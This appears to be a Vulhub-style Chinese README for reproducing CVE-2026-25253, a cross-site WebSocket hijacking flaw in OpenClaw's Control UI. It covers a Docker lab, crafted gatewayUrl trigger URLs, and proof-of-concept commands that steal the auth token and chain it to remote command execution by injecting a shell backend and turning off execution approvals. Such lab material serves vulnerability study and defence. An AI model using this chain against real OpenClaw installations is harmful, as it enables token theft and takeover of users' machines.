




# OpenClaw跨站WebSocket劫持漏洞（CVE-2026-25253）

[OpenClaw](https://github.com/openclaw/openclaw)（也称clawdbot、Moltbot、龙虾、小龙虾🦞）是一款运行在本地设备上的开源多通道AI网关，用于在消息平台与AI模型之间转发请求。其Control UI默认会连接本地网关，并在浏览器侧保存会话所需的认证上下文。

## 漏洞概述

CVE-2026-25253是OpenClaw Control UI中的跨站WebSocket劫持（CSWSH）漏洞，影响clawdbot2026.1.28及以下版本。Control UI支持通过URL查询参数`gatewayUrl`覆盖默认网关地址，并在页面加载时自动建立WebSocket连接，但这一过程缺少充分校验和明确确认。攻击者可以诱导受害者浏览器连接到攻击者控制的WebSocket端点，从而泄露`auth.token`、`role`、`scopes`和`device`等认证上下文，并进一步劫持本地网关会话完成任意命令执行。

下图展示了完整攻击链：`① 攻击者向受害者发送恶意地址`，`② 受害者访问恶意地址后自动连接攻击者控制的WebSocket端点并泄露Token`，`③ 攻击者重放该Token并将调用链切换到CLI Provider，最终在本地OpenClaw环境中触发RCE`。



从实现细节看，完整利用链可拆解为下面七个技术步骤。RCE成立的前提仍然是攻击者已经通过CSWSH拿到有效token。

| 阶段 | 接口或动作 | 作用 |
| --- | --- | --- |
| 1 | 使用泄露的token并设置`client.id="cli"`重新连接网关 | 绕过`secureContext`限制，建立可利用会话 |
| 2 | 调用`config.get` | 读取当前网关配置和后续补丁所需的`baseHash` |
| 3 | 调用`config.patch`注入恶意`cliBackends` | 将`/bin/sh -c <payload>`挂载为可调用的CLI后端 |
| 4 | 调用`exec.approvals.set` | 将执行策略改为`security: "full"`和`ask: "off"`，关闭交互确认 |
| 5 | 调用`sessions.patch`设置`model` | 让会话的`providerOverride`指向注入的CLI后端 |
| 6 | 调用`agent`方法 | 触发`runCliAgent`路径，直接执行`spawn(command, args)` |
| 7 | 读取容器内的验证文件 | 确认命令已经在OpenClaw容器中执行 |

## 环境搭建

在当前目录中可以先执行`python3 prerequisites.py`检查本地Python、`websockets`依赖以及Docker环境是否满足复现条件，然后使用下面的命令启动OpenClaw2026.1.28环境：

```bash
python3 prerequisites.py
docker compose up -d
docker compose ps
```

容器启动后，在浏览器中访问以下地址进入Control UI。该环境的容器入口会预填本地登录态，因此页面通常会直接处于已登录状态：

```text
http://your-ip:18789/
http://localhost:18789/
```

如果你之前访问过该站点，建议先清理`http://localhost:18789`对应的Local Storage，或者直接使用隐身窗口，以避免旧缓存导致Control UI仍连接到历史网关地址。页面正常时，Control UI应显示为在线状态；如果你计划在另一台机器上运行`ws.py`，请提前将监听地址改为受害者浏览器可访问的IP，而不是默认的`127.0.0.1`。

## 漏洞复现

先在浏览器中打开`http://your-ip:18789/`或`http://localhost:18789/`，确认Control UI处于正常连接状态。

下面提供两条独立的复现路径：本地WebSocket监听适合单机实验环境，CoNote监听适合不方便在本地启动Python监听器、或者需要远程查看WebSocket数据的场景。
两种路径都会捕获受害者发送给伪造网关的`connect`帧，只需任选其一即可。

### 本地WebSocket复现

在攻击者侧终端安装`websockets`依赖并启动监听器：

```bash
pip3 install websockets
python3 ws.py
```

`ws.py`默认监听`ws://127.0.0.1:8080`，启动后会直接在终端打印触发URL。请在**已经打开Control UI的同一浏览器**中新建标签页访问该触发地址；如果你需要手工拼接，默认格式如下：

```text
http://your-ip:18789/?gatewayUrl=ws://127.0.0.1:8080
http://localhost:18789/?gatewayUrl=ws://127.0.0.1:8080
```

访问后，Control UI会被重定向到攻击者控制的WebSocket服务，页面通常会变为离线状态。与此同时，`ws.py`终端会打印捕获到的`connect`帧关键信息，其中应包含`auth.token`、`role: "operator"`、`scopes`和`device`字段；当终端出现`CSWSH token leak confirmed`时，说明认证上下文泄露已经复现成功。


在拿到泄露的认证上下文后，可以直接运行自动化利用脚本完成从CSWSH到RCE的完整链路验证：

```bash
python3 poc.py --rce --cmd "id"
```

该脚本会自动启动本地监听器、捕获token并继续执行后续利用链。链路执行成功后，脚本会从容器中读取命令输出结果，下面的截图展示了使用本地监听方案完成RCE验证的效果。



### CoNote复现

如果不希望在本地运行监听脚本，可以使用[CoNote](https://conote.vulhub.org)接收受害者浏览器发出的WebSocket连接。登录CoNote后切换到WebSocket模块，系统会为当前会话分配一个唯一的WebSocket监听地址。将该地址完整复制下来，并将其作为`gatewayUrl`参数拼接到目标Control UI地址中。

```text
http://your-ip:18789/?gatewayUrl=<your-conote-websocket-url>
```

随后在**已经保持Control UI登录态的同一浏览器**中直接访问上述URL。Control UI会自动连接到CoNote提供的WebSocket端点并发送完整的`connect`帧，你可以在CoNote面板中看到与本地监听方案相同的认证上下文字段，包括`auth.token`、`role`、`scopes`和`device`。当这些字段出现在CoNote面板中时，说明CoNote路径下的认证上下文泄露已经验证成功。



拿到CoNote中捕获的完整`connect`帧JSON后，可以将整段JSON直接传给`poc.py`的`--token`参数，无需手工拆分`auth.token`或其他字段：

```bash
python3 poc.py --token '<full-connect-frame-json>' --rce --cmd "id"
```

脚本会自动解析从CoNote中获取的JSON中的认证信息，并继续执行认证、配置修改、沙箱关闭和命令触发等步骤。执行成功后，可以在终端或容器内看到只读命令的输出结果；下面的截图展示了使用CoNote捕获数据后继续完成RCE验证的效果。



## References

- <https://nvd.nist.gov/vuln/detail/CVE-2026-25253>
- <https://github.com/openclaw/openclaw/security/advisories/GHSA-g8p2-7wf7-98mq>
- <https://security.snyk.io/vuln/SNYK-JS-OPENCLAW-15202445>
- <https://github.com/al4n4n/CVE-2026-25253-research>
